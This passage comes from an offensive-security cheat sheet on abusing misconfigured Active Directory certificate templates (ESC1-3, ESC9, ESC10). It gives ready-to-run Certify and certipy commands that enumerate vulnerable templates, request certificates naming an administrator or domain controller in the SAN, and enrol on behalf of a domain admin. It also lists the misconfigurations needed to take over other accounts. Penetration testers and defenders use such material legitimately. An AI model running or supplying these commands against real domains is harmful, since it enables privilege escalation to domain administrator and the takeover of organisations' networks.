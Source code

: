 If **ANY EKU** but no Client Authentication, it can be used as en **ESC3**.

###### ESC2 & 3
```powershell
# Request an enrollment agent certificate
Certify.exe request /ca:CA.contoso.local\CA /template:Vuln-EnrollAgentTemplate

# Request a certificate on behalf of another to a template that allow for domain authentication
Certify.exe request /ca:CA.contoso.local\CA /template:User /onbehalfon:CONTOSO\Admin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```

##### Linux

###### ESC1 & 2
```bash
# enumerate and save text, json and bloodhound (original) outputs
certipy find -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -old-bloodhound

# quickly spot vulnerable elements
certipy find -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -vulnerable -stdout

#To specify a user account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template' -upn 'administrator@contoso.local'

#To specify a computer account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template' -dns 'dc.contoso.local'
```

If **ANY EKU** but no Client Authentication, it can be used as en **ESC3**.

###### ESC2 & 3
```bash
# Request a certificate specifying the Certificate Request Agent EKU
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'vulnerable template'

# Used issued certificate to request another certificate on behalf of another user
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'User' -on-behalf-of 'contoso\domain admin' -pfx 'user.pfx'
```

#### Extension misconfiguration - ESC9 & 10

* **ESC9** : No security extension, the certificate attribute `msPKI-Enrollment-Flag` contains the flag `CT_FLAG_NO_SECURITY_EXTENSION`
  * `StrongCertificateBindingEnforcement` not set to `2` (default: `1`) or `CertificateMappingMethods` contains `UPN` flag (`0x4`)
  * The template contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
  * The template specifies client authentication
  * `GenericWrite` right against any account A to compromise any account B
* **ESC10** : Weak certificate mapping
  * Case 1 : `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
    * A template that specifiy client authentication is enabled
    * `GenericWrite` right against any account A to compromise any account B
  * Case 2 : `CertificateMappingMethods` is set to `0x4`, meaning no strong mapping is performed and only the UPN will be checked
    * A template that specifiy client authentication is enabled
    * `GenericWrite` right against any account A to compromise any account B without a UPN already set (machine accounts or buit-in Administrator account for example)
